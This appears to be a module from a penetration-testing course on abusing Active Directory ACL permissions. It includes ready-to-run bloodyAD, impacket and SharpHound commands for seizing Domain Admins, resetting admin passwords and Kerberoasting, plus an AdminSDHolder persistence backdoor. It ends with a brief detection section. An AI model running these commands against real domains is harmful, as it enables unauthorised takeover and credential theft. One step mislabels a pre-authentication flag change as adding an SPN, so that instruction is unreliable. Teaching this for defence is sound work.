

# Module 08: Active Directory Access Control & ACL / ACE Abuse

> **Navigation**: [⬅️ Module 07: AD CS (ESC1-ESC13)](Module-07-Active-Directory-Certificate-Services-ADCS.md) | [🏠 Master Index](../README.md) | [Module 09: Domain Dominance & DCSync ➡️](Module-09-Domain-Dominance-Persistence-and-DCSync.md)

---


## 1. Directory Object Security Architecture: DACLs, SACLs, and ACEs

Every object in Active Directory (Users, Computers, Groups, Organizational Units, GPOs, and Domain Containers) is protected by a binary **Security Descriptor (SD)** stored in the `nTSecurityDescriptor` attribute.

```
+-----------------------------------------------------------------------------------------+
| ANATOMY OF AN ACTIVE DIRECTORY SECURITY DESCRIPTOR                                      |
|                                                                                         |
|  1. OWNER SID: Identifies the principal who owns the object (S-1-5-21-...-512)          |
|  2. GROUP SID: Primary group of the owner (typically Domain Admins)                     |
|                                                                                         |
|  3. DISCRETIONARY ACCESS CONTROL LIST (DACL):                                           |
|     * Controls WHO has access to the object and WHAT actions they can perform.          |
|     * Composed of an array of Access Control Entries (ACEs):                            |
|       - ACE 1: Allow | CORP\HelpDesk      | Reset Password (User-Force-Change-Password) |
|       - ACE 2: Allow | CORP\ServerAdmins  | GenericAll                                  |
|       - ACE 3: Deny  | CORP\Contractors   | Read Property                               |
|                                                                                         |
|  4. SYSTEM ACCESS CONTROL LIST (SACL):                                                  |
|     * Controls WHAT actions generate audit log events in the Security Event Log.        |
|     * Audits object access, modifications, and permission tampering (Event ID 5136/4670)|
+-----------------------------------------------------------------------------------------+
```

### Access Control Entry (ACE) Anatomy:
In Active Directory, ACEs can be standard or **Object-Specific** (`ACCESS_ALLOWED_OBJECT_ACE`):
* **AceType**: `ACCESS_ALLOWED_ACE_TYPE` (`0x00`) or `ACCESS_ALLOWED_OBJECT_ACE_TYPE` (`0x05`).
* **AceFlags**: Controls inheritance (`OBJECT_INHERIT_ACE`, `CONTAINER_INHERIT_ACE`, `INHERITED_ACE`).
* **Access Mask**: 32-bit bitmask defining granted rights (`GenericAll`, `GenericWrite`, `WriteDacl`, `WriteOwner`).
* **ObjectType (GUID)**: Present in Object-Specific ACEs. Identifies the specific attribute (e.g., `servicePrincipalName`) or extended right (e.g., `User-Force-Change-Password`) governed by the entry.
* **InheritedObjectType (GUID)**: Restricts inheritance to specific child object classes (e.g., applies only to child `User` objects).
* **Trustee (SID)**: The user or group receiving the permission.

---

## 2. High-Impact ACE Rights & Operational Weaponization

```
+---------------------------------------------------------------------------------------+
| HIGH-IMPACT ACE PERMISSION ABUSE TAXONOMY                                             |
+----------------------+--------------------+-------------------------------------------+
| Permission Name      | Hex Mask / GUID    | Weaponization & Escalation Path           |
+----------------------+--------------------+-------------------------------------------+
| **GenericAll**       | 0x10000000         | Full control. Reset password, add to group|
|                      | (GENERIC_ALL)      | write all attributes, take ownership.     |
+----------------------+--------------------+-------------------------------------------+
| **GenericWrite**     | 0x40000000         | Write access to ALL properties. Targeted  |
|                      | (GENERIC_WRITE)    | Kerberoasting, RBCD injection, login script|
+----------------------+--------------------+-------------------------------------------+
| **WriteDacl**        | 0x00040000         | Modify the DACL itself. Grant yourself    |
|                      | (WRITE_DACL)       | GenericAll over the target object!        |
+----------------------+--------------------+-------------------------------------------+
| **WriteOwner**       | 0x00080000         | Seize ownership of target. Owner has right|
|                      | (WRITE_OWNER)      | to rewrite DACL -> GenericAll!            |
+----------------------+--------------------+-------------------------------------------+
| **ForceChangePassword| 00299570-246d-11d0-| Reset target user's password directly     |
|                      | a768-00aa006e0529  | without knowing their current password!   |
+----------------------+--------------------+-------------------------------------------+
| **Self / AddSelf**   | bf9679c0-0de6-11d0-| Group membership abuse. Attacker adds     |
| (Self-Membership)    | a285-00aa003049e2  | their own account into the target group!  |
+----------------------+--------------------+-------------------------------------------+
| **DCSync Rights**    | 1131f6aa & 1131f6ad| Replicate directory secrets. Dump all     |
| (Get-Changes-All)    | (Extended Rights)  | domain password hashes directly!          |
+----------------------+--------------------+-------------------------------------------+
```

---

## 3. Operational Escalation Playbook: From ACE to Domain Admin



### 1. Exploiting `WriteOwner`:
If user `jdoe` has `WriteOwner` over `Domain Admins`:
```bash
# 1. Seize ownership using bloodyAD:
bloodyAD.py -d corp.local -u jdoe -p 'Pass123!' --host 10.0.0.1 \
  set owner "Domain Admins" "jdoe"

# 2. As the owner, award yourself GenericAll (WriteDacl):
bloodyAD.py -d corp.local -u jdoe -p 'Pass123!' --host 10.0.0.1 \
  add genericAll "Domain Admins" "jdoe"

# 3. Add yourself to Domain Admins:
bloodyAD.py -d corp.local -u jdoe -p 'Pass123!' --host 10.0.0.1 \
  add groupMember "Domain Admins" "jdoe"
```

### 2. Exploiting `ForceChangePassword`:
If user `jdoe` has `ForceChangePassword` over a Domain Administrator `admin_bob`:
```bash
# Reset admin_bob's password directly over RPC/LDAP:
bloodyAD.py -d corp.local -u jdoe -p 'Pass123!' --host 10.0.0.1 \
  set password "admin_bob" "NewP@ssw0rd2024!"

# Or via Windows net.exe:
net user admin_bob "NewP@ssw0rd2024!" /domain
```

### 3. Exploiting `GenericWrite` for Targeted Kerberoasting:
If user `jdoe` has `GenericWrite` over an unprivileged user `victim_user`:
```bash
# 1. Set an SPN on the victim user:
bloodyAD.py -d corp.local -u jdoe -p 'Pass123!' --host 10.0.0.1 \
  add uac "victim_user" -f DONT_REQ_PREAUTH
# Or add SPN:
bloodyAD.py -d corp.local -u jdoe -p 'Pass123!' --host 10.0.0.1 \
  set objectProperty "victim_user" servicePrincipalName "test/service"

# 2. Immediately Kerberoast the account using GetUserSPNs:
impacket-GetUserSPNs 'corp.local/jdoe:Pass123!' -request-user victim_user -outputfile roast.txt
```

---

## 4. BloodHound Graph Theory & Attack Paths

Active Directory environments are too complex to audit through static spreadsheets. **BloodHound** uses graph theory to reveal unintended hidden permission chains.

### Ingestion: SharpHound & BloodHound.py
```powershell
# Run SharpHound on a domain-joined machine:
.\SharpHound.exe -c All --zipfilename company_loot.zip --Loop --LoopDuration 02:00:00

# Or execute remotely from Kali Linux via BloodHound.py:
bloodhound-python -u 'jdoe' -p 'Pass123!' -d 'corp.local' -ns 10.0.0.1 -c All --zip
```

### Critical Cypher Queries for Operators:
```cypher
// 1. Find the shortest path to Domain Admins:
MATCH p=shortestPath((u:User)-[r*1..]->(g:Group {name:'DOMAIN ADMINS@CORP.LOCAL'}))
RETURN p

// 2. Find all non-admin users with DCSync privileges:
MATCH (u:User)-[r:DCSync]->(d:Domain)
WHERE NOT (u)-[:MemberOf*1..]->(:Group {name:'DOMAIN ADMINS@CORP.LOCAL'})
RETURN u

// 3. Find dangerous ACL write permissions over Domain Controller computer objects:
MATCH p=(u:User)-[r:GenericAll|GenericWrite|WriteDacl|WriteOwner]->(c:Computer)
WHERE c.operatingsystem =~ '.*Server.*'
RETURN p

// 4. Find all users with ForceChangePassword rights on administrative accounts:
MATCH p=(u:User)-[r:ForceChangePassword]->(target:User)
WHERE target.admincount = 1
RETURN p
```

---

## 5. The AdminSDHolder & SDProp Defense Mechanism

To protect high-privilege accounts from ACL drift and accidental permission grants, Active Directory runs an automated background engine called **SDProp (Security Descriptor Propagator)**.

```
+-----------------------------------------------------------------------------------+
| ADMINSDHOLDER & SDPROP ARCHITECTURE                                               |
|                                                                                   |
|  1. TEMPLATE CONTAINER: CN=AdminSDHolder,CN=System,DC=corp,DC=local               |
|     * Holds a pristine, hardened Access Control List (DACL).                      |
|                                                                                   |
|  2. SDPROP BACKGROUND THREAD:                                                     |
|     * Executes automatically every 60 minutes on the PDC Emulator.                |
|     * Scans for all objects where attribute: adminCount = 1                       |
|       (Domain Admins, Enterprise Admins, Schema Admins, Backup Operators, etc.)   |
|                                                                                   |
|  3. ENFORCEMENT ACTION:                                                           |
|     * Disables DACL inheritance on the protected object.                          |
|     * Overwrites the object's DACL with the exact DACL from AdminSDHolder!        |
|     * Any permissions an attacker granted themselves on a Domain Admin are        |
|       STRIPPED within 60 minutes!                                                 |
+-----------------------------------------------------------------------------------+
```

### The AdminSDHolder Persistence Backdoor:
Because SDProp automatically applies the DACL from `CN=AdminSDHolder` to all protected administrative objects every 60 minutes:
* If an attacker achieves Domain Admin, they can add an explicit `GenericAll` ACE for an unprivileged user directly to the **`AdminSDHolder` object itself**:
  ```powershell
  Add-DomainObjectAcl -TargetIdentity "AdminSDHolder" -PrincipalIdentity "jdoe" -Rights All
  ```
* Within 60 minutes, SDProp executes and propagates `GenericAll` for `jdoe` to **EVERY Domain Admin and Enterprise Admin account in the forest**! Even if incident responders remove the backdoors from individual user accounts, SDProp silently reinfects them every hour.

---

## 6. Defensive Hardening & Detection Engineering

### 1. Continuous Active Directory ACL Auditing:
Run BloodHound Enterprise or automated PowerShell scripts weekly to detect newly introduced high-risk ACE edges (`WriteDacl`, `WriteOwner`, `GenericAll` awarded to non-admin principals).

### 2. SIEM Detection Queries:
* **Event ID 5136**: Directory Service Object Modified (monitors changes to `nTSecurityDescriptor`).
* **Event ID 4670**: Permissions on an object were changed.
```sql
index=windows EventCode=5136 ObjectDN="*AdminSDHolder*"
| stats count by OpCorrelationID, SubjectUserName, AttributeLDAPDisplayName
```


---

> **Navigation**: [⬅️ Module 07: AD CS (ESC1-ESC13)](Module-07-Active-Directory-Certificate-Services-ADCS.md) | [🏠 Master Index](../README.md) | [Module 09: Domain Dominance & DCSync ➡️](Module-09-Domain-Dominance-Persistence-and-DCSync.md)
